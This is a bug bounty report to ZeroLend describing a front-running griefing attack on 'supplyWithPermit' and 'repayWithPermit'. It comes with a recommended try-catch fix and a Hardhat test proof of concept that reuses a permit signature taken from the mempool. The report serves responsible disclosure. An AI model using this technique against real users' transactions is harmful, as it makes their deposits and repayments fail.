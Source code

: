 
# Attacker can grief a user by making his 'supplyWithPermit' call fail

Submitted on Mar 3rd 2024 at 19:57:36 UTC by @djxploit for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28970

Report type: Smart Contract

Report severity: Medium

Target: https://pacific-explorer.manta.network/address/0x8676e39B5D2f0d6E0d78a4208a0cCBc50504972e

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
When a user calls `supplyWithPermit` function, attacker can make the call revert by front-running. This happens because of a missing `try-catch` statement in the `supplyWithPermit` function.

## Vulnerability Details
When `supplyWithPermit` is called, by passing a permit signature, the contract calls the `permit` function of the asset to get approval to spend on behalf of caller. It then calls the `SupplyLogic.executeSupply` function to supply the asset. 

So an attacker sees the `supplyWithPermit` call in the mempool, and extracts the permit signature from the call's argument. Attacker then use this permit signature, to directly call the asset's `permit` function. This will give the approval to the contract address, but along with it will increase the user's nonce, thus making the signature invalid for any further use.

Due to this when the original  `supplyWithPermit` gets mined, it will revert, as the signature has become invalid. Hence the user's transaction will revert.

## Impact Details
Attacker can grief users by frontrunning the `supplyWithPermit` functions, making that functionality unusable by users.
Apart from `supplyWithPermit` the `repayWithPermit` function is also vulnerable to this issue.

## Remediation Details
Implement a try-catch statement. Inside the `supplyWithPermit` function, call the assets `permit` statement using a try statement, and catch any revert. That will resolve the issue. 

## References
https://www.trust-security.xyz/post/permission-denied


## Proof of Concept

Here is the test file. The specific test case showing the vulnerability is "Supply with permit test'"
```
import { expect } from 'chai';
import { BigNumber, Signer, utils } from 'ethers';
import { impersonateAccountsHardhat } from '../helpers/misc-utils';
import { ProtocolErrors, RateMode } from '../helpers/types';
import { getFirstSigner } from '@aave/deploy-v3/dist/helpers/utilities/signer';
import { makeSuite, TestEnv } from './helpers/make-suite';
import { HardhatRuntimeEnvironment } from 'hardhat/types';
import {
  evmSnapshot,
  evmRevert,
  DefaultReserveInterestRateStrategy__factory,
  VariableDebtToken__factory,
  increaseTime,
  AaveDistributionManager,
} from '@aave/deploy-v3';
import {
  InitializableImmutableAdminUpgradeabilityProxy,
  MockL2Pool__factory,
  MockL2Pool,
  L2Encoder,
  L2Encoder__factory,
} from '../types';
import { ethers, getChainId } from 'hardhat';
import {
  buildPermitParams,
  getProxyImplementation,
  getSignatureFromTypedData,
} from '../helpers/contracts-helpers';
import { getTestWallets } from './helpers/utils/wallets';
import { MAX_UINT_AMOUNT } from '../helpers/constants';
import { parseUnits } from 'ethers/lib/utils';
import { getReserveData, getUserData } from './helpers/utils/helpers';
import { calcExpectedStableDebtTokenBalance } from './helpers/utils/calculations';

declare var hre: HardhatRuntimeEnvironment;

makeSuite('Pool: L2 functions', (testEnv: TestEnv) => {
  const {
    INVALID_HF,
    NO_MORE_RESERVES_ALLOWED,
    CALLER_NOT_ATOKEN,
    NOT_CONTRACT,
    CALLER_NOT_POOL_CONFIGURATOR,
    RESERVE_ALREADY_INITIALIZED,
    INVALID_ADDRESSES_PROVIDER,
    RESERVE_ALREADY_ADDED,
    DEBT_CEILING_NOT_ZERO,
    ASSET_NOT_LISTED,
    ZERO_ADDRESS_NOT_VALID,
  } = ProtocolErrors;

  let l2Pool: MockL2Pool;

  const POOL_ID = utils.formatBytes32String('POOL');

  let encoder: L2Encoder;

  before('Deploying L2Pool', async () => {
    const { addressesProvider, poolAdmin, pool, deployer, oracle } = testEnv;
    const { deployer: deployerName } = await hre.getNamedAccounts();

    encoder = await (await new L2Encoder__factory(deployer.signer).deploy(pool.address)).deployed();

    // Deploy the mock Pool with a `dropReserve` skipping the checks
    const L2POOL_IMPL_ARTIFACT = await hre.deployments.deploy('MockL2Pool', {
      contract: 'MockL2Pool',
      from: deployerName,
      args: [addressesProvider.address],
      libraries: {
        SupplyLogic: (await hre.deployments.get('SupplyLogic')).address,
        BorrowLogic: (await hre.deployments.get('BorrowLogic')).address,
        LiquidationLogic: (await hre.deployments.get('LiquidationLogic')).address,
        EModeLogic: (await hre.deployments.get('EModeLogic')).address,
        BridgeLogic: (await hre.deployments.get('BridgeLogic')).address,
        FlashLoanLogic: (await hre.deployments.get('FlashLoanLogic')).address,
        PoolLogic: (await hre.deployments.get('PoolLogic')).address,
      },
      log: false,
    });

    const poolProxyAddress = await addressesProvider.getPool();
    const oldPoolImpl = await getProxyImplementation(addressesProvider.address, poolProxyAddress);

    // Upgrade the Pool
    await expect(
      addressesProvider.connect(poolAdmin.signer).setPoolImpl(L2POOL_IMPL_ARTIFACT.address)
    )
      .to.emit(addressesProvider, 'PoolUpdated')
      .withArgs(oldPoolImpl, L2POOL_IMPL_ARTIFACT.address);

    // Get the Pool instance
    const poolAddress = await addressesProvider.getPool();
    l2Pool = await MockL2Pool__factory.connect(poolAddress, await getFirstSigner());
    expect(await addressesProvider.setPriceOracle(oracle.address));
  });

  after(async () => {
    const { aaveOracle, addressesProvider } = testEnv;
    expect(await addressesProvider.setPriceOracle(aaveOracle.address));
  });

  it('Supply with permit test', async () => {
    // user0 is the attacker
    const { deployer, dai, aDai, users: [user0] } = testEnv;

    const chainId = Number(await getChainId());
    const nonce = await dai.nonces(deployer.address);
    const amount = utils.parseEther('10000');
    const highDeadline = '3000000000';
    const userPrivateKey = getTestWallets()[0].secretKey;
    
    const msgParams = buildPermitParams(
      chainId,
      dai.address,
      '1',
      await dai.symbol(),
      deployer.address,
      l2Pool.address,
      nonce.toNumber(),
      highDeadline,
      amount.toString()
    );
    const { v, r, s } = getSignatureFromTypedData(userPrivateKey, msgParams);

    await dai.connect(deployer.signer)['mint(uint256)'](amount);
    const referralCode = BigNumber.from(2);
    
    // Simulate frontrunning
    // Attacker see the below 'supplyWithPermit' call in mempool, so he call the permit() of DAI directly, 
    // by using the signature from the call. This will increase the nonce of the 'deployer', which
    // make the signature invalid for further use.
    await dai.connect(user0.signer)['permit(address,address,uint256,uint256,uint8,bytes32,bytes32)'](deployer.address,l2Pool.address,amount,highDeadline,v,r,s);

    // So when the actual supplyWithPermit call will get mined, it will revert, as the signature has become invalid because
    // of the frontrunning done by attacker, which increased deployer's nonce by directly calling the permit function of DAI.
    await expect(
      l2Pool.connect(deployer.signer)['supplyWithPermit(address,uint256,address,uint16,uint256,uint8,bytes32,bytes32)'](
        dai.address,
        amount,
        deployer.address,
        referralCode,
        highDeadline,
        v,
        r,
        s)
    )
      .to.be.revertedWith(
        "INVALID_SIGNATURE"
    );
  });
});
```
